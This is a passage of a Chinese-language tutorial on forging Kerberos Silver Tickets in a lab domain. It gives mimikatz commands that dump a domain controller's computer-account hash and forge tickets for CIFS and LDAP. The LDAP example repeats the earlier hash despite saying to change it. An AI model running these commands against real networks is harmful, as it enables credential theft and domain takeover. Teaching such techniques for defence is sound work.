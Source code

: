 此图片引用自http://dfir-blog.com/2015/12/13/protecting-windows-networks-kerberos-attacks/

不难看出其中取消了步骤`1-4`

也就是说只要手里有Silver Ticket，就可以跳过KDC认证，直接去访问指定的服务。

**比如现在要访问域控上的“cifs”服务**（cifs服务用于Windows主机间的文件共享）

首先需要获得如下信息：

*   /domain
*   /sid
*   /target:目标服务器的域名全称，此处为域控的全称
*   /service：目标服务器上面的kerberos服务，此处为cifs
*   /rc4：计算机账户的NTLM hash，域控主机的计算机账户
*   /user：要伪造的用户名，此处可用silver测试

在域控上执行如下命令来获取域控主机的本地管理员账户hash

```
mimikatz log "sekurlsa::logonpasswords"

```

如图![Alt text](http://drops.javaweb.org/uploads/images/b26363f684cb4d6a073f7b705f7665f7f03a63f7.jpg)

> **注：**
> 
> 此处要找到计算机账户，也就是`Username : WIN-8VVLRPIAJB0$`的`NTLM hash`，如果是其他账户，那么会失败

整理以上获得的信息如下：

*   /domain:test.local
*   /sid:S-1-5-21-4155807533-921486164-2767329826
*   /target:WIN-8VVLRPIAJB0.test.local
*   /service:cifs
*   /rc4:d5304f9ea69523479560ca4ebb5a2155
*   /user:silver

使用mimikatz执行如下命令导入Silver Ticket

```
mimikatz "kerberos::golden /domain:test.local /sid:S-1-5-21-4155807533-921486164-2767329826 /target:WIN-8VVLRPIAJB0.test.local /service:cifs /rc4:d5304f9ea69523479560ca4ebb5a2155 /user:silver /ptt"

```

如图，成功导入，此时可以成功访问域控上的文件共享

![Alt text](http://drops.javaweb.org/uploads/images/6fe9b6a7baf5795200f80e2a7ed7079f8c890582.jpg)

![Alt text](http://drops.javaweb.org/uploads/images/98fbeb256a4d5428b19df97f055d822e9cf1aaea.jpg)

**为了加深理解，再举一个例子**

**访问域控上的“LDAP”服务**

整理信息如下，只需要把/service的名称改为LDAP,/user改为krbtgt,/rc4改为krbtgt的NTLM HASH

*   /domain:test.local
*   /sid:S-1-5-21-4155807533-921486164-2767329826
*   /target:WIN-8VVLRPIAJB0.test.local
*   /service:LDAP
*   /rc4:d5304f9ea69523479560ca4ebb5a2155
*   /user:krbtgt

